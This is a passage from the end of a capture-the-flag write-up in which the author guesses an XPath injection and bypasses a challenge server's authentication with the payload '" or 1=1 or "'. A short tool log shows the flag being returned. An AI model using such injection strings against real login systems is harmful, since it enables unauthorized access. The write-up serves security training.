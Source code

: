 Nope, it makes the application behave strangely too… It looks like SQL, but it isn’t. Maybe it’s XPath? Let’s retry the earlier injection with lowercase characters.

```
Nightlysploit $> " or 1=1 or "
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered: The flag is: D34RG0DILUVC00KIEZ
```

Boom. The flag is `D34RG0DILUVC00KIEZ`.

## Other write-ups

* none yet
